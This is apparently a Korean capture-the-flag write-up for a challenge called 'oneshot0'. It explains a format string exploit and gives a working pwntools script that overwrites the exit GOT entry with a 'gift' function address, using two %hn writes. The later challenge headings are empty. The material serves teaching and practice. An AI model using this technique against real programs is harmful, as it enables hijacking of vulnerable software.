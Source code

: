 # fsb

## oneshot0

주어진 gift 함수를 실행하면 된다. PIE가 없고 partial RELRO이므로 fsb를 활용하여 exit 함수의 got를 gift함수의 주소로 덮어쓸 수 있다. gift 함수의 주소값이 크기 때문에 출력하는 것에 시간이 오래 걸리므로 %hn을 이용하여 2회에 걸쳐 나누어서 입력할 수 있다. gift의 주소를 2부분으로 나눈 뒤 각각 exit+2와 exit에 입력할 수 있다. payload의 길이는 8의 배수여야 하므로 0x20으로 설정하면 offset은 6이지만 payload 길이로 인해 실제 입력하는 offset은 10과 11이 된다. payload를 보내면 exit_got를 gift로 변조할 수 있다.

```python

from pwn import *

# context.log_level = 'debug'

e = ELF("./oneshot")
p = process(e.path)


p.recvuntil(b"\n\n")
payload = f'%{e.symbols["gift"] >> 16}c'.encode() #gift_high
payload += b"%10$hn"
payload += f"%{(e.symbols['gift'] & 0xffff) - (e.symbols['gift'] >> 16)}c".encode() #gift_low - gift_high
payload += b"%11$hn"
payload = payload.ljust(0x20, b"\x00")
payload += p64(e.got["exit"] + 2)
payload += p64(e.got["exit"])
p.send(payload)

p.interactive()


```


## oneshot1




## oneshot2




## oneshot3





## oneshot4
